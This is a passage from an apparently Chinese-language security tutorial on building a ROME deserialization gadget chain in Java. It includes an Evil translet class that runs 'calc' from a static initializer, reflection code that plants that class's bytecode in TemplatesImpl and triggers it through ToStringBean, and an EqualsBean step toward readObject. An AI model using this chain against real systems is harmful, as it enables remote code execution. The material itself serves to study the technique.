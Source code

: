 ```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {}
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

```java
public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
    Class clazz = obj.getClass();
    Field field = clazz.getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, newValue);
}

public static void main(String[] args) throws Exception {
    byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
    TemplatesImpl obj = new TemplatesImpl();
    setFieldValue(obj, "_bytecodes", new byte[][] {code});
    setFieldValue(obj, "_name", "p4d0rn");
    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
    ToStringBean bean = new ToStringBean(TemplatesImpl.class, obj);
    System.out.println(bean);  // 调用ToStringBean的toString方法
}
```

接着要找某个类的`readObject`调用了`toString`且调用者可控。

这里找了个中间人`EqualsBean`，和`ToStringBean`在同一个包下

```java
public class EqualsBean implements Serializable {
    // The hashcode is calculated by getting the hashcode of the Bean String representation
    public EqualsBean(Class beanClass,Object obj) {
        if (!beanClass.isInstance(obj)) {
            throw new IllegalArgumentException(obj.getClass()+" is not instance of "+beanClass);
        }
        _beanClass = beanClass;
        _obj = obj;
    }
    public int hashCode() {
        return beanHashCode();
    }
    public int beanHashCode() {
        return _obj.toString().hashCode();
    }
}
```

